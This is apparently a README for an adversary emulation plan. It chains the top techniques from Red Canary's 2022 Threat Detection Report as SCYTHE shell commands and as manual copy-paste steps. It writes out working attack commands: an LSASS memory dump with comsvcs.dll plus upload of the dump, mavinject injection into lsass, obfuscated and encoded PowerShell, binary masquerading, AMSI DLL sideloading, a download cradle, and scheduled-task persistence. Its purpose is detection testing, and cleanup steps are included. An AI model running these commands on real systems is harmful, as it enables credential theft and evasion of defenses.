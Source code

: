 # Red Canary - Emulation Plan

Red Canary is legitimate company and not a threat actor. However, they release actionable Cyber Threat Intelligence and hence why we have added it to our community threats GitHub.

## 2022 Threat Detection Report
Red Canary released the 2022 Threat Detection Report in March 2022 and it includes the top techniques they observed over the past year: https://redcanary.com/threat-detection-report/techniques/ 

### Automated Emulation with SCYTHE
This threat chains together the top techniques from the Red Canary 2022 Threat Detection Report.

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/RedCanary
4. Create a new campaign `RedCanary2022TDR` with HTTPS
5. Import from Existing Threat: `RedCanary2022TDR`
6. Launch the Campaign

### Manual Emulation with SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a SCYTHE shell:
```
loader --load run
run powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
run cmd.exe "%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt"
run rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe
run wmic /node:"127.0.0.1" process call create "calc.exe"
run powershell (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt
run schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\Windows\Temp\current_date.txt"
loader --load downloader
downloader --src VFS:/shared/threats/RedCanary/obfuscation.ps1 --dest .\obfuscation.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\obfuscation.ps1
run cmd.exe /c copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe
run cmd.exe /c C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
downloader --src VFS:/shared/threats/RedCanary/tweet.ps1 --dest .\tweet.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1
run cmd.exe /c copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
run cmd.exe /c copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
run cmd.exe /c %APPDATA%\updater.exe -Command exit
STEP = CLEANUP
run wmic process where name="notepad.exe" delete
run wmic process where name="Calculator.exe" delete
run cmd.exe /c del hello.txt
run cmd.exe /c del tweet.ps1
run cmd.exe /c del obfuscation.ps1
run cmd.exe /c del LICENSE.txt
run cmd.exe /c del C:\Windows\Temp\notepad.exe
run cmd.exe /c del C:\Windows\Temp\svchost.exe
run cmd.exe /c del %APPDATA%\updater.exe
run cmd.exe /c del %APPDATA%\amsi.dll
run schtasks /Delete /TN CMDTestTask /F
STEP = REQUIRES PRIV
controller --integrity
If step 31 does not contain "High" goto step 38
run powershell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full
loader --load uploader
uploader --remotepath C:\Windows\Temp\lsass.dmp
run cmd.exe /c del C:\Windows\Temp\lsass.dmp
run powershell mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll
controller --shutdown
```

### Manual Emulation without SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a target host by copying and pasting these procedures:
1.  `powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
2. `%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del hello.txt` 
3. `rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`
4. `wmic /node:"127.0.0.1" process call create “calc.exe”`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="calc.exe" delete`
    * Note the version of Windows may call the process `Calculator.exe` or `CalculatorApp.exe`
5. `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full`
    * Execute this from a privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\lsass.dmp`     
6. `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt`
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`   
    * Clean up by executing: `del LICENSE.txt`
7. `mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll`
    * Execute this from a privileged powershell.exe
    * Clean up by rebooting
8. `schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR ""cmd /c date /T > C:\Windows\Temp\current_date.txt"`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `schtasks /Delete /TN CMDTestTask /F`
9. ```$cmDwhy =[TyPe]("{0}{1}" -f 'S','TrING')  ;   $pz2Sb0  =[TYpE]("{1}{0}{2}"-f'nv','cO','ert')  ;  &("{0}{2}{3}{1}{4}" -f'In','SiO','vOKe-EXp','ReS','n') (  (&("{1}{2}{0}"-f'blE','gET-','vaRIA')  ('CMdw'+'h'+'y'))."v`ALUe"::("{1}{0}" -f'iN','jO').Invoke('',( (127, 162,151, 164,145 ,55 , 110 ,157 ,163 , 164 ,40,47, 110 , 145 ,154, 154 ,157 , 54 ,40, 146, 162 , 157,155 ,40, 120, 157 ,167,145 , 162 ,123,150 ,145 , 154 , 154 , 41,47)| .('%') { ( [CHAR] (  $Pz2sB0::"t`OinT`16"(( [sTring]${_}) ,8)))})) )```
    * Execute this from a non-privileged powershell.exe
10. `copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe` & `C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\notepad.exe`
11. `Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1`
    * Download tweet.ps1 to the working directory 
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `del $Env:windir\Temp\svchost.exe`
12. `copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe` & `copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll` & `%APPDATA%\updater.exe -Command exit`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del %APPDATA%\updater.exe` & `del %APPDATA%\amsi.dll`
